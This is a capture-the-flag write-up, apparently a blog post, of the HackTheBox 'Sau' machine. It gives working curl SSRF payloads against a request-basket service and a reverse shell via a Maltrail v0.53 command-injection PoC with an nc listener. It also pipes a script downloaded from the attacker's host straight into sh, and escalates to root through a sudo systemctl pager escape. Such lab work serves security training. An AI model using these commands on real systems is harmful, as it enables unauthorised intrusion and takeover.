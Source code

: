 ```yaml
---
title: "HTB - Sau"
date: "11/10/2024"
description: "Write-up of the Sau machine on HackTheBox."
tags: ["HackTheBox"]
image: "https://www.it-connect.fr/wp-content-itc/uploads/2023/12/hackthebox-writeup-sau.png"
readingTime: "10"
---
```


![preview](https://www.it-connect.fr/wp-content-itc/uploads/2023/12/hackthebox-writeup-sau.png)

## Initial Reconnaissance

First, we initiate a scan of open ports:
```bash
nmap -sC -sV [BOX_IP]
```
This reveals an exposed service at `http://[BOX_IP]:55555/`. Another service is detected on port 80, but it remains inaccessible to us.

Access the URL from your browser to observe the app version is 1.2.1.

## Part One: Exploiting the SSRF Vulnerability

A quick Google search reveals that this version is vulnerable to Server Side Request Forgery (SSRF) on the `/api/baskets/{baskets_name}` endpoint.

We proceed to trigger the SSRF to extract information from the inaccessible port 80:
```bash
curl -L 'http://[BOX_IP]:55555/api/baskets/idklol' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
```
By accessing `http://[BOX_IP]:55555/idklol`, we obtain the leaked webpage which uses Maltrail v0.53.

## Part Two: OS Command Execution Exploit

Another Google search for "Maltrail v0.53 exploit" reveals it is also vulnerable to OS command execution. 

Referencing this PoC: https://github.com/spookier/Maltrail-v0.53-Exploit, we note that the login page is needed to exploit the "username" field. 

To address this, we modify our first vulnerability to redirect traffic to the `/login` endpoint:
```bash
curl -L 'http://[BOX_IP]:55555/api/baskets/idklmao' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/login", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'
```
We then execute the following command to obtain a session as the user "puma":
```bash
nc -lvnp [YOUR_PORT]
python3 exploit.py [YOUR_IP] [YOUR_PORT] http://[BOX_IP]:55555/idklmao
```
The user flag can be found at `/home/puma/user.txt`. We now need to escalate our privileges.

## Part Three: Privilege Escalation with LinPEAS

To begin, we run LinPEAS, a Linux enumeration tool. Download it from the latest release on GitHub: https://github.com/carlospolop/PEASS-ng/releases/latest and move it into a separate folder.

In order to transfer it to the box, we establish a python server within the directory containing `LinPEAS.sh`:
```bash
sudo python3 -m http.server 80
```
Inside the box, we use `curl` to download it:
```bash
curl http://[YOUR_IP]/linpeas.sh | sh
```
Despite multiple attempts trying out things with LinPEAS output, I didn't find a way to get root at first.

## Part Four: Exploiting Sudo Permissions

After some search, we identify a path to privilege escalation through LinPEAS output:
```sh
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
This indicates that the user has the ability to execute `sudo /usr/bin/systemctl status trail.service`, which triggers a "less" command page style. 

Looking at https://gtfobins.github.io/gtfobins/systemctl/, we learn that: "If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate, or maintain privileged access."

If we trigger the command as sudo, our privileges will be maintained when gaining another shell. 
Following the instructions in point c) inside gtfobins, we execute:
```bash
sudo /usr/bin/systemctl status trail.service
```
Then type:
```bash
!sh
```
This provides another shell. We verify our privileges:
```bash
whoami
```
This should output `root`, indicating that we have root-level privileges. 

The flag can be found under `/root/root.txt`.

Happy rooting :)